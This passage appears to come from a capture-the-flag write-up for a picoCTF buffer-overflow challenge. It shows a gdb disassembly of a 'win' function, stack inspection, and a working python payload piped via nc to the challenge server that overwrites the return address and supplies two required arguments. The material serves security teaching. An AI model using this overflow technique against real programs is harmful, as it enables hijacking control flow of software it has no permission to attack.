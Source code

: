 ```bash
   0x08049313 <+125>:   jne    0x804932f <win+153>
   0x08049315 <+127>:   cmp    DWORD PTR [ebp+0xc],0xf00df00d
   0x0804931c <+134>:   jne    0x8049332 <win+156>
   0x0804931e <+136>:   sub    esp,0xc
   0x08049321 <+139>:   lea    eax,[ebp-0x4c]
   0x08049324 <+142>:   push   eax
   0x08049325 <+143>:   call   0x80490e0 <printf@plt>
   0x0804932a <+148>:   add    esp,0x10
   0x0804932d <+151>:   jmp    0x8049333 <win+157>
   0x0804932f <+153>:   nop
   0x08049330 <+154>:   jmp    0x8049333 <win+157>
   0x08049332 <+156>:   nop
   0x08049333 <+157>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08049336 <+160>:   leave
   0x08049337 <+161>:   ret
End of assembler dump.
gef➤  b *0x0804930c
Breakpoint 2 at 0x804930c
gef➤  r < payload
```

Viewing the data placed onto the stack below the base pointer:

```bash
gef➤  x/xw $ebp+4
0xffffce50:     0x42424242
gef➤  x/xw $ebp+8
0xffffce54:     0x43434343
gef➤  x/xw $ebp+0xc
0xffffce58:     0x44444444
```

Where `ebp+4` is the "saved" return address, `ebp+8` is `arg1`, and `ebp+0xc` is `arg2`.

Lastly, we just need to write the correct values to `ebp+8` and `ebp+0xc` in little endian format:

```bash
python3 -c 'import sys;sys.stdout.buffer.write(b"A" * 112 + b"\x96\x92\x04\x08" + b"B" * 4 + b"\x0d\xf0\xfe\xca" + b"\x0d\xf0\x0d\xf0" + b"\n")' | nc saturn.picoctf.net 62762
```

And we pwned the challenge!